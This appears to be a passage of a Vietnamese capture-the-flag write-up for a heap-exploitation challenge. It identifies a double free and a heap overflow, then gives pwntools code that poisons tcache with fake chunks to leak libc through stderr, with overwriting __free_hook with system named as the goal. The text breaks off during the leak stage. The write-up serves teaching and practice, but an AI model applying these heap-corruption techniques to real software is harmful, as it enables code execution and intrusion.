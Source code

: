 **1.Find bug**
  - ![image](https://user-images.githubusercontent.com/113702087/220030510-859dae24-8668-41e8-9bde-a9f9eaab5c06.png)
  - PIE và Fortify tắt.
  - ![image](https://user-images.githubusercontent.com/113702087/220022145-4c49d73e-b46c-4791-91fe-aef24fdd12c1.png)
  - chương trình thực hiện nhập name tại 0x602060 và thực thi read data trên heap được cấp phát tại 0x602088, tuy nhiên giới hạn của việc free là 8 lần.
  - Tại hàm info ta có thể in ra name.
  - do libc-2.27 nên ta có thể double free đê gây lỗi uaf.
  - ![image](https://user-images.githubusercontent.com/113702087/220031133-961eedfe-ec72-4ba1-bf49-77ac6223b435.png)
  - ta có thể thấy rằng khi tại hàm Malloc() nó thực hiện read_input(ptr, uint(size - 16)) nếu size < 16 thì có thể read với size lớn gây lỗi heap overflow.
  - Dựa vào các lỗi trên ta có thể leak libc = cách đưa addr libc vào tcache và giải phóng name lúc đó name -> libc, lúc này ta dùng info để leak libc ra. Khi có libc thì có thể overwrite free_hook thành system
  - ta sẽ chọn địa chỉ name+16 là fake chunk và libc là stderr

**2. Exploit**
 ### Leak libc
  - Để đưa libc và fakechunk về cùng 1 chunk thì ta cần control size = 0x90 của chunk, với fakechunk thì khá dễ vì ta có thể control nó bằng cách nhập từ name
  - `r.sendafter(b'Name', b'\x41'*8 + p64(0x91))` tạo size cho fakechunk
  - Tạo 4 chunk và giải phóng nó.
  ```
  malloc(size_, b'a')
  freeandinfo(b'2')
  freeandinfo(b'2')
  malloc(size_ + 24, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 40, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 56, b'aaaa')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220078906-f8d92564-7224-4794-896f-5c5904c9fdc3.png)
  - chunk đầu ta sẽ dùng double free, overflow nó để control các chunk dưới, và chứa lbic_stderr+30 để control size libc_stderr
  - chunk 2 ta đưa stderr, cấp phát vào stderr và thay đổi nó thành libc_stderr-0x30 thay đổi stderr ở chunk 1
  - chunk 3 đưa fakechunk vào để có thể free vào chunk mong muốn ( ở đây là chunk chứa libc)
  - chunk 4 cũng là fakechunk để ta có thể control được ptr vì chương trình đã giới hạn việc free.
  - setup các chunk
  ```
  payload = p64(stderr) + b'\x00'*16 + p64(0x31) + p64(stderr) + b'\x00'*32 + p64(0x41) + p64(name_addr + 16) + b'\x00'*48 + p64(0x51) + p64(name_addr + 16)

  malloc(size_, payload)
  malloc(size_ + 24, b'a')
  malloc(size_ + 24, b'\x50')
  malloc(size_, b'a')
  malloc(size_, b'a')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220079920-00e4a33c-1fc8-4b36-a435-32a44e3e3f61.png)
  - ![image](https://user-images.githubusercontent.com/113702087/220081175-9c7c37e6-f9d1-4c71-999e-2e3d788289c4.png)
  - thay đổi size libc_stderr và đưa vào tcache_c
  ```
  payload = b'\x00'*40 + p64(0x91)
  malloc(size_, payload)
  malloc(size_ + 24, b'\x87')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220081883-10198633-7bb4-4635-b8cb-092b55a79ee3.png)
  - Sau khi đưa libc_stderr vào tcache ta free(fakechunk) tcache 0x90: `fakechunk->libc_stderr`
  - 
